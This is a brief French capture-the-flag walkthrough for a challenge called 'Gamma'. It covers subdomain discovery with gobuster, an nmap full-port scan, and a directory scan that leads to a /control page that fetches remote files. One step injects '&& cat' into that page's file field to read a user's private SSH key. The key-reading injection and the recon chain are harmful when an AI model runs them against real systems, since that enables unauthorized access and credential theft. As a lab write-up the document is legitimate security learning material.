 # Gamma

1) Chercher les sous domaines avec gobuster

```bash
gobuster dns -d rs.io -w hacker-toolkit/wordlists/common_subdomains.txt
```

2) Trouver le sous domaine `gamma.rs.io`

3) Scan de port avec nmap sur le sous domaine

```bash
nmap -sV -p- gamma.rs.io
```

4) Trouver le port 5536 avec un service nodejs qui tourne

5) On explore le site avec un scan de dirbuster

```bash
gobuster dir -u http://gamma.rs.io:5536 -w hacker-toolkit/wordlists/common_urls.txt
```

6) On trouve une page `/control` qui contient un formulaire permettant de récupérer les fichiers d'une machine distante

7) On récupère le fichier `/home/dev/.ssh/id_rsa && cat /home/dev/.ssh/id_rsa` de la machine distante

8) Ce fichier contient le flag

### Flag = ${FLAG_ElevatedRCE}